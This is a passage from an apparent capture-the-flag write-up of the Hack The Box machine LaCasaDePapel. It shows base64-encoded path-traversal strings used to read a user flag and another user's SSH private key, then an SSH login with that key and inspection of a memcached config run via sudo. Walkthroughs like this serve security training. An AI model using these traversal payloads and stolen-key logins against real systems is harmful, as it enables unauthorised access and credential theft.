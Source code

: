 And I do download a file called user.txt, but it's just a html file containing an error.

However, the error is that the file does not exist. Not that I don't have permissions. So it seems to be more of a path error.

```
kali@kali:~/htb/LaCasaDePapel$ echo -n "../../../../../home/berlin/user.txt" | base64
Li4vLi4vLi4vLi4vLi4vaG9tZS9iZXJsaW4vdXNlci50eHQ=
kali@kali:~/htb/LaCasaDePapel$ 
```


This actually worked, and I got the user flag.

So I spotted tons of .ssh directories etc. while looking at the home directories, so let's see if we can get the berlin id_rsa.

```
kali@kali:~/htb/LaCasaDePapel$ echo -n "../../../../home/berlin/.ssh/id_rsa" | base64
Li4vLi4vLi4vLi4vaG9tZS9iZXJsaW4vLnNzaC9pZF9yc2E=
```

I try ssh'ing in as berlin, but it requires a password. So I try the other users until I find that professor works.

```
kali@kali:~/htb/LaCasaDePapel$ sudo ssh -i id_rsa professor@lacasadepapel.htb
The authenticity of host 'lacasadepapel.htb (10.129.107.31)' can't be established.
ECDSA key fingerprint is SHA256:rA99W+GVzo0hlABp1vMj9ChhjLwybPhHTpb65AWm7xI.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added 'lacasadepapel.htb,10.129.107.31' (ECDSA) to the list of known hosts.
X11 forwarding request failed on channel 0

 _             ____                  ____         ____                  _ 
| |    __ _   / ___|__ _ ___  __ _  |  _ \  ___  |  _ \ __ _ _ __   ___| |
| |   / _` | | |   / _` / __|/ _` | | | | |/ _ \ | |_) / _` | '_ \ / _ \ |
| |__| (_| | | |__| (_| \__ \ (_| | | |_| |  __/ |  __/ (_| | |_) |  __/ |
|_____\__,_|  \____\__,_|___/\__,_| |____/ \___| |_|   \__,_| .__/ \___|_|
                                                            |_|       

lacasadepapel [~]$ whoami
professor
lacasadepapel [~]$ 
```

In professor's home folder we get this:

```
lacasadepapel [~]$ ls -la
total 24
drwxr-sr-x    4 professo professo      4096 Mar  6  2019 .
drwxr-xr-x    7 root     root          4096 Feb 16  2019 ..
lrwxrwxrwx    1 root     professo         9 Nov  6  2018 .ash_history -> /dev/null
drwx------    2 professo professo      4096 Jan 31  2019 .ssh
-rw-r--r--    1 root     root            88 Jan 29  2019 memcached.ini
-rw-r-----    1 root     nobody         434 Jan 29  2019 memcached.js
drwxr-sr-x    9 root     professo      4096 Jan 29  2019 node_modules
lacasadepapel [~]$ cat memcached.ini 
[program:memcached]
command = sudo -u nobody /usr/bin/node /home/professor/memcached.js
lacasadepapel [~]$ 
```
